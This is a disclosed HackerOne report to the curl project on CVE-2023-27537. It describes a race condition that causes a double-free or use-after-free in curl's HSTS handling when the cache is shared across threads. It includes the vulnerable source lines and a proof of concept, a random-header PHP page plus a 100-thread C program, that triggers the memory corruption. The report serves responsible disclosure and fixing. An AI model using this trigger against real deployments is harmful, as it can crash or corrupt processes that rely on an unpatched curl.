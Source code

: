 # CVE-2023-27537: HSTS double-free

## Report Details
- **Report ID**: 1897203
- **URL**: https://hackerone.com/reports/1897203
- **State**: Closed
- **Severity**: low
- **Submitted**: 2023-03-08T18:10:27.876Z
- **Disclosed**: 2023-03-20T11:24:38.300Z

## Reporter
- **Username**: kurohiro
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
## Summary:
When processing HSTS with multi-threading, double-free or UAF may occur due to lack of exclusion control.
HSTS entries disappear when they expire or when "max-age=0" is received.
In this case, the offending entry is removed from the internal memory list, freeing memory but not exclusivity control.
Therefore, depending on the timing, other threads may perform the operation, resulting in double-free or UAF.

`lib/hsts.c` in the function `Curl_hsts_parse` on lines 213-221
```
  if(!expires) {
    /* remove the entry if present verbatim (without subdomain match) */
    sts = Curl_hsts(h, hostname, FALSE);
    if(sts) {
      Curl_llist_remove(&h->list, &sts->node, NULL);
      hsts_free(sts);
    }
    return CURLE_OK;
  }
```

If multiple threads process `hsts_free(sts);` at the same time, it becomes double-free.
Another problem is that UAF occurs when other threads access entries.

Lines 270-275 have a similar problem.

## Steps To Reproduce:

  1. [Prepare the following php.]
```
<?php
$random = rand(0, 1);
if($random == 0){
        header("strict-transport-security: max-age=9999");
}else{
        header("strict-transport-security: max-age=0");
}
```
  2. [Compile and run the following cpp.]
```
#include <stdio.h>
#define HAVE_STRUCT_TIMESPEC // [Add] 
#include <pthread.h>
#include <curl/curl.h>

#define NUMT 100

const char* const url = "https://test.local/poc.php";

pthread_mutex_t lock[9];

static void lock_cb(CURL* handle, curl_lock_data data,
    curl_lock_access access, void* userptr)
{
    pthread_mutex_lock(&lock[data]); /* uses a global lock array */
}

static void unlock_cb(CURL* handle, curl_lock_data data,
    void* userptr)
{
    pthread_mutex_unlock(&lock[data]); /* uses a global lock array */
}

static void* pull_one_url(void* shobject)
{
    CURL* curl;

    for (int i = 0; i < 100; i++) {
        curl = curl_easy_init();
        curl_easy_setopt(curl, CURLOPT_URL, url);
        curl_easy_setopt(curl, CURLOPT_HSTS, "c:\\home\\hsts.txt");
        curl_easy_setopt(curl, CURLOPT_SHARE, shobject);
        curl_easy_setopt(curl, CURLOPT_SSL_VERIFYHOST, 0L);
        curl_easy_setopt(curl, CURLOPT_SSL_VERIFYPEER, 0L);
        curl_easy_perform(curl); /* ignores error */
        curl_easy_cleanup(curl);
    }

    return NULL;
}

int main(int argc, char** argv)
{
    pthread_t tid[NUMT] = {0};
    int i;

    for(i = 0;i<=9;i++)
        pthread_mutex_init(&lock[i], NULL);
    
    /* Must initialize libcurl before any threads are started */
    curl_global_init(CURL_GLOBAL_ALL);
    CURLSH* shobject = curl_share_init();
    curl_share_setopt(shobject, CURLSHOPT_SHARE, CURL_LOCK_DATA_HSTS);
    curl_share_setopt(shobject, CURLSHOPT_LOCKFUNC, lock_cb);
    curl_share_setopt(shobject, CURLSHOPT_UNLOCKFUNC, unlock_cb);
    for (i = 0; i < NUMT; i++) {
        int error = pthread_create(&tid[i],
            NULL, /* default attributes please */
            pull_one_url,
            (void*)shobject);
        if (0 != error)
            fprintf(stderr, "Couldn't run thread number %d, errno %d\n", i, error);
        else
            fprintf(stderr, "Thread %d, gets %s\n", i, url);
    }

    /* now wait for all threads to terminate */
    for (i = 0; i < NUMT; i++) {
        pthread_join(tid[i], NULL);
        fprintf(stderr, "Thread %d terminated\n", i);
    }
    curl_share_cleanup(shobject);
    curl_global_cleanup();
    return 0;
}

```
The source was referred to under docs/examples.

Supplement.
URL is https://test.local/poc.php.
php that randomly memorizes and deletes HSTS entries.
It's hard to reproduce if it's random, but I've confirmed that the problem will occur.
I attach an image of when the UAF happened(I tried in debug build).
The number of threads and the number of loops are increased in order to raise the possibility that the phenomenon will occur.
{F2216003}

## Impact

Double-free

## Attachments
- UAF.png
